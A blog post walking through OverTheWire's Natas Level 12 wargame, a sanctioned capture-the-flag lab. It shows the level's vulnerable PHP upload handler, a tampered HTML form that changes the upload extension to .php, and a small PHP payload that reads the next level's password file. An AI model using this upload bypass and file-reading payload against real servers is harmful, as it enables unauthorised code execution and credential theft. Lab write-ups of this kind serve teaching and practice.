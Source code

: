 ```yaml
---
layout: post
title: "OverTheWire Natas Level 12"
date: "2012-11-11T06:27:00-05:00"
comments: true
categories:
 - overthewire
 - wargames
 - natas
 - php
 - hacking
---
```


The next level to attack in the [OverTheWire](http://www.overthewire.org) Natas wargame, is [Level 12](http://www.overthewire.org/wargames/natas/natas12.shtml), which is more "real-world" as well, since developers often forget to limit file extensions.

<!-- more -->

It starts out giving you the option to upload a <1KB file to the server.

{% img /images/natas12_1.png %}

As with any other challenge, I viewed the source, to analyze it. 

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas12</h1> 
<div id="content"> 
<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

The filename of the uploaded file is a randomly generated .jpg file, based on the hidden input in the HTML. To change that, there are a few ways, but I simply did the old-school method of saving the HTML to my desktop, and modifying it, since there was no code to verify the HTTP Referer. I made the code read:

```
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas12</h1>
<div id="content">

<form enctype="multipart/form-data" action="http://natas12.natas.labs.overthewire.org/index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="hostess.php" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

I had really only changed the filename to be a .php extension, since it will still be randomly assigned a filename, but keep the extension. The other change was simply to make it submit to the full URL of the site.

I then opened up the HTML file in my browser, and selected a PHP file that I had made just for this level. It simply reads the password file for the next level, and prints it to the screen. The code for it is as follows: 

```
<?php
$file = file_get_contents('/etc/natas_webpass/natas13');
echo $file;
?>
```

{% img /images/natas12_2.png %}

Once that uploaded, it gave me a link to the newly uploaded file.

{% img /images/natas12_3.png %}

Once the newly uploaded file executed, it wrote out the contents of the next level's password.

{% img /images/natas12_4.png %}
